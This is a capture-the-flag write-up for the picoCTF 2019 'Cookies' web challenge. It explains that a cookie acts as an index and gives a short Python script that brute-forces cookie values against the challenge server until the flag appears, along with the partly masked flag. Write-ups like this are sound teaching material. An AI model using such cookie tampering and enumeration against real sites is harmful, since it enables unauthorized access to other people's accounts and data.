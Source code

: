 # Cookies

Tags: picoCTF 2019, Web Exploitation

| Author    | Point     |
| --------- | --------- |
| MADSTACKS | 40 points |

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Solve

When we look at the web page, there is an input form.

![](https://github.com/Yunolay/picoctf_writeup/blob/main/Web%20Exploitation/Cookies/images/CleanShot%202024-04-15%20at%2018.11.37.png)

I tried entering the appropriate values.

![CleanShot 2024-04-15 at 18.20.28](./images/CleanShot 2024-04-15 at 18.20.28.png)

-1 was saved in cookie. Changing this to 1 made it a special cookie, but I didn't get the flag.

![CleanShot 2024-04-15 at 18.23.11](./images/CleanShot 2024-04-15 at 18.23.11.png)

![CleanShot 2024-04-15 at 18.23.43](./images/CleanShot 2024-04-15 at 18.23.43-3175267.png)

Since it is assumed that it is an index, I wrote a script that uses brute force.

```python
import requests

url = "http://mercury.picoctf.net:29649/check"

s = requests.Session()

for i in range(1000):
    cookies = {"name": f"{i}"}
    r = s.get(url, cookies=cookies)
    if "picoCTF" in r.text:
        print(r.text)
        break
```

As a result, I got a flag.

```
$ python3 solver.py

[snip]
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_********}</code></p>
        </div>
[snip]
```

## Flag

```
picoCTF{3v3ry1_l0v3s_c00k135_********}
```
